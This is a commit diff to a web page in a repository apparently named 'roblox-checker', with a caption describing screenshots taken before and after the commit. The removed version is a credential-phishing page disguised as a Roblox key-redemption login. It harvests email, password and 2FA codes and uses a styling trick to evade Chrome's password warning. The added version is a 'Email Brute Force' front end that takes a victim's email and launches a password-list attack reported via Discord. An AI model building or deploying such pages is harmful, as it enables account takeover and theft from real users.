

Before and after one commit to d4v1d44/roblox-checker, a website: page index.html in a window 1280 px wide. Shown: the part 110-668 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,245 +3,70 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Redeem Your Key - Roblox Login</title>
+    <title>Roblox Email Brute Force</title>
     <style>
-        body {
-            margin: 0;
-            padding: 0;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background: #1a1a1a;
-            color: white;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            overflow: hidden;
-        }
-
-        .container {
-            background: #2b2b2b;
-            padding: 40px;
-            border-radius: 15px;
-            box-shadow: 0 10px 30px rgba(0,0,0,0.5);
-            width: 350px;
-            text-align: center;
-        }
-
-        h1 {
-            color: #00b060;
-            margin-bottom: 20px;
-            font-size: 24px;
-        }
-
-        .input-group {
-            margin-bottom: 15px;
-            text-align: left;
-        }
-
-        label {
-            display: block;
-            margin-bottom: 5px;
-            font-size: 14px;
-            color: #ccc;
-        }
-
-        input {
-            width: 100%;
-            padding: 12px;
-            border: 2px solid #444;
-            border-radius: 8px;
-            background: #333;
-            color: white;
-            font-size: 16px;
-            box-sizing: border-box;
-            transition: border-color 0.3s;
-        }
-
-        input:focus {
-            border-color: #00b060;
-            outline: none;
-        }
-
-        /* ESTE É O TRUQUE PARA O CHROME: */
-        /* Faz o campo parecer senha (pontinhos) mas é um texto comum */
-        .password-field {
-            -webkit-text-security: disc;
-        }
-
-        button {
-            width: 100%;
-            padding: 12px;
-            background: #00b060;
-            color: white;
-            border: none;
-            border-radius: 8px;
-            font-size: 16px;
-            cursor: pointer;
-            transition: background 0.3s;
-            margin-top: 10px;
-        }
-
-        button:hover {
-            background: #009950;
-        }
-
-        .message {
-            margin-top: 15px;
-            font-size: 14px;
-            min-height: 20px;
-        }
-
-        .success {
-            color: #00b060;
-        }
-
-        .error {
-            color: #ff4d4d;
-        }
-
-        .loading {
-            color: #ffcc00;
-        }
-
-        #step2 {
-            display: none;
-        }
-
-        .roblox-icon {
-            width: 50px;
-            height: 50px;
-            background: #00b060;
-            border-radius: 10px;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            margin: 0 auto 20px;
-            font-size: 24px;
-            font-weight: bold;
-        }
+        body { font-family: sans-serif; background: #232336; color: white; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .box { background: #181825; padding: 30px; border-radius: 12px; width: 400px; box-shadow: 0 5px 15px rgba(0,0,0,0.5); }
+        h2 { text-align: center; color: #00b060; margin-top: 0; }
+        label { display: block; margin-bottom: 5px; color: #aaa; font-size: 14px; }
+        input { width: 100%; padding: 10px; margin-bottom: 15px; border: 1px solid #444; border-radius: 6px; background: #2f2f45; color: white; box-sizing: border-box; }
+        button { width: 100%; padding: 12px; background: #00b060; border: none; color: white; font-weight: bold; border-radius: 6px; cursor: pointer; }
+        button:hover { background: #009950; }
+        #status { margin-top: 15px; text-align: center; font-size: 14px; min-height: 20px; }
+        .success { color: #00b060; }
+        .error { color: #ff4d4d; }
+        .info { color: #ccc; font-size: 12px; margin-bottom: 15px; }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <div class="roblox-icon">R</div>
-    <h1>Redeem Your Key</h1>
+<div class="box">
+    <h2>📧 Email Brute Force</h2>
+    <p class="info">Insira o Email da vítima. O Bot vai testar automaticamente as senhas do arquivo `senhas.txt`.</p>
 
-    <!-- Passo 1: Login -->
-    <div id="step1">
-        <div class="input-group">
-            <label>Email</label>
-            <input type="email" id="email" placeholder="seu-email@exemplo.com">
-        </div>
-        <div class="input-group">
-            <label>Senha</label>
-            <!-- MUDANÇA: type="text" e a classe "password-field" para esconder o aviso do Chrome -->
-            <input type="text" id="password" class="password-field" placeholder="Sua senha">
-        </div>
-        <button onclick="checkLogin()">Verificar Conta</button>
-        <div class="message" id="msg1"></div>
-    </div>
+    <label>Email da Conta Roblox</label>
+    <input type="email" id="emailInput" placeholder="exemplo@gmail.com">
 
-    <!-- Passo 2: 2FA -->
-    <div id="step2">
-        <h2>Confirmação 2FA</h2>
-        <p style="font-size: 14px; color: #ccc;">Verifique o email da sua conta Roblox e coloque o código de 6 dígitos.</p>
-        <div class="input-group">
-            <label>Código 2FA</label>
-            <input type="text" id="code2fa" placeholder="Ex: 123456" maxlength="6">
-        </div>
-        <button onclick="submit2FA()">Confirmar e Resgatar</button>
-        <div class="message" id="msg2"></div>
-    </div>
+    <button onclick="startAttack()">Iniciar Ataque</button>
+
+    <div id="status"></div>
 </div>
 
 <script>
-    async function checkLogin() {
-        const email = document.getElementById('email').value;
-        const password = document.getElementById('password').value;
-        const msgDiv = document.getElementById('msg1');
-        const btn = document.querySelector('#step1 button');
+    async function startAttack() {
+        const email = document.getElementById('emailInput').value;
+        const statusDiv = document.getElementById('status');
+        const btn = document.querySelector('button');
 
-        if (!email || !password) {
-            msgDiv.innerHTML = '<span class="error">Preencha o Email e a Senha!</span>';
+        if (!email || !email.includes('@')) {
+            statusDiv.innerHTML = '<span class="error">Coloca um Email válido!</span>';
             return;
         }
 
-        msgDiv.innerHTML = '<span class="loading">Verificando conta...</span>';
+        statusDiv.innerHTML = '<span class="success">Enviando Email para o Bot...</span>';
         btn.disabled = true;
-        btn.style.opacity = '0.7';
+        btn.innerText = "Aguardando...";
 
         try {
-            const response = await fetch('/check', {
+            const response = await fetch('/start-brute-force', {
                 method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({
-                    email: email,
-                    password: password
-                })
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify({ email: email })
             });
 
             const data = await response.json();
 
             if (data.success) {
-                msgDiv.innerHTML = '<span class="success">✅ Conta Encontrada! Vai para a confirmação...</span>';
-                setTimeout(() => {
-                    document.getElementById('step1').style.display = 'none';
-                    document.getElementById('step2').style.display = 'block';
-                }, 1500);
+                statusDiv.innerHTML = '<span class="success">✅ Ataque Iniciado! Verifique o Discord em instantes.</span>';
             } else {
-                msgDiv.innerHTML = '<span class="error">❌ ' + (data.error || 'Erro ao verificar a conta.') + '</span>';
+                statusDiv.innerHTML = `<span class="error">❌ Erro: ${data.error}</span>`;
             }
-        } catch (error) {
-            msgDiv.innerHTML = '<span class="error">❌ Erro de Conexão com o Servidor.</span>';
-            console.error('Erro:', error);
+
+        } catch (e) {
+            statusDiv.innerHTML = '<span class="error">❌ Erro de Conexão com o Servidor</span>';
         } finally {
             btn.disabled = false;
-            btn.style.opacity = '1';
-        }
-    }
-
-    async function submit2FA() {
-        const email = document.getElementById('email').value;
-        const password = document.getElementById('password').value;
-        const code = document.getElementById('code2fa').value;
-        const msgDiv = document.getElementById('msg2');
-        const btn = document.querySelector('#step2 button');
-
-        if (!code) {
-            msgDiv.innerHTML = '<span class="error">Preencha o Código 2FA!</span>';
-            return;
-        }
-
-        msgDiv.innerHTML = '<span class="loading">Enviando dados...</span>';
-        btn.disabled = true;
-
-        try {
-            await fetch('/check', {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({
-                    email: email,
-                    password: password,
-                    code2fa: code,
-                    isFinalStep: true
-                })
-            });
-
-            msgDiv.innerHTML = '<span class="success">✅ Sucesso! A sua chave será enviada em breve.</span>';
-
-            setTimeout(() => {
-                document.querySelector('.container').innerHTML = '<h1 style="color:#00b060">Tudo Pronto!</h1><p>Aguarde o email de confirmação.</p>';
-            }, 2000);
-
-        } catch (error) {
-            msgDiv.innerHTML = '<span class="error">❌ Erro ao enviar o código.</span>';
-        } finally {
-            btn.disabled = false;
+            btn.innerText = "Iniciar Ataque";
         }
     }
 </script>
```
